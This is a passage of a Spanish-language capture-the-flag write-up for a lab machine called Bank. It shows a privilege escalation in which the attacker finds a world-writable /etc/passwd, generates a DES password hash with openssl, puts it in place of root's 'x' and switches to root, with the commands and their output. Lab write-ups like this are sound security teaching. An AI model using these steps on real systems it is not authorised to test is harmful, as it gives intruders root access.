 ### Otra manera de escalar

Hay otra manera de escalar privilegios. Si buscamos por archivos con opción de escritura (para nuestro usuario):

```sh
www-data@bank:/home/chris$ find / -writable 2>/dev/null | grep -v proc
/var/lib/php5
/var/lib/apache2/fcgid
/var/lib/apache2/fcgid/sock
/var/crash
/var/www/bank
/var/www/bank/support.php
... SNIP ...
/etc/passwd
... SNIP ...
```

Encontramos el **/etc/passwd** con opcion de escritura. Cuando hacemos un `su USER` para cambiar de usuario, el sistema acude primero al /etc/passwd a ver si el usuario se encuentra, si se encuentra y en el lugar de la password esta la letra x entonces pasa a buscar la contraseña hasheada del usuario al /etc/shadow. Si coincide la contraseña que escribes con la del shadow te permite cambiar de usuario. Pero hay un truquillo, podemos cambiar ese **x** por una contraseña que nosotros inventemos pero en formato hash:

```sh
www-data@bank:/home/chris$ # openssh --help
www-data@bank:/home/chris$ openssl passwd
Password: 
Verifying - Password: 
3cg9iY6/5Pi6U
# Nos saca el hash en formato DES (por defecto)
```

Ahora en el lugar de la **x** de root colocaremos ese hash:

```plaintext
root:3cg9iY6/5Pi6U:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
... SNIP ...
```

Guardamos (Ctrl + S) y salimos (Ctrl + X).

```sh
www-data@bank:/home/chris$ su root
Password:   # escribo hola
root@bank:/home/chris# whoami
root
```

Máquina Bank terminada. Escalada bastante fácil. Hay que tener algo de paciencia en el fuzzing de subdirectorios.





